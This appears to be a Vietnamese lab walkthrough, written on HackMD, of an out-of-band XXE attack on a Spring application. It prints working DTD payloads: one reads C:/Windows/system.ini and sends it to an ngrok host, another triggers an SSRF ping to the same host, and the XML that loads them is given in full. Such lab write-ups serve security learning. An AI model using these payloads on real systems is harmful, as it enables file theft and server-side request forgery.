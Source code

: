 Sau khi tham khảo các nguồn thì tôi sẽ thử OOB trường hợp này mình sẽ gửi result ra bằng http liệu xem nó sẽ trả về cái gì.

![image](https://hackmd.io/_uploads/Sk-vgCo3xx.png)

Tiến hành host 1 python server đến port 8000 ở folder mà ta để payload.

![image](https://hackmd.io/_uploads/BkZqlConee.png)

Sử dụng ngrok để listen port 8000 và tạo tunnel đưa nó ra ngoài.

![image](https://hackmd.io/_uploads/Sk8TxAj3lx.png)

Tạo file exploit.dtd với nội dung trên:

```xml 
<!ENTITY % file SYSTEM "file:///C:/Windows/system.ini">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://eparchial-dahlia-edgier.ngrok-free.dev/?x=%file;'>">
%eval;
%exfiltrate;
```

![image](https://hackmd.io/_uploads/Sk3yG0i2gx.png)

Tiến hành payload cho ngrok trỏ đến file và khi nó get về nó sẽ thực thi file dtd và mong nó sẽ trả result trong request.

![image](https://hackmd.io/_uploads/rkx07fCo2lx.png)

Có vẻ như thành công GET file nhưng không hề có thông tin nào được trả về. Ở đây sau khi thử vài cách về đọc file nhưng không hề được thì mình đang nghĩ là do cấu hình Spring không cho phép thực thì dtd đọc file nên mình sẽ thử cách khác là SSRF bằng cách thử ping.

Vẫn như trên ta sẽ tạo python server sau đó đưa nó qua ngrok listen sau đó tạo file ping.dtd với nội dung:

```xml 
<!ENTITY % ping SYSTEM "https://eparchial-dahlia-edgier.ngrok-free.dev/ping-successful">
```

Payload này sẽ cố đọc ping.dtd, server lab hiểu lệnh bên trong (<!ENTITY % ping SYSTEM ".../ping-successful">) và đã thực thi nó. Nó sẽ gửi đi một request thứ hai đến địa chỉ /ping-successful.

![image](https://hackmd.io/_uploads/ryENSAj3gl.png)

Ta có kết quả sau khi tiến hành sử dụng payload:

```xml 
<?xml version="1.0" ?>
<!DOCTYPE data [
    <!ENTITY % oob SYSTEM "https://eparchial-dahlia-edgier.ngrok-free.dev/ping.dtd">
    %oob;

    %ping;
]>
<data>test</data>
```
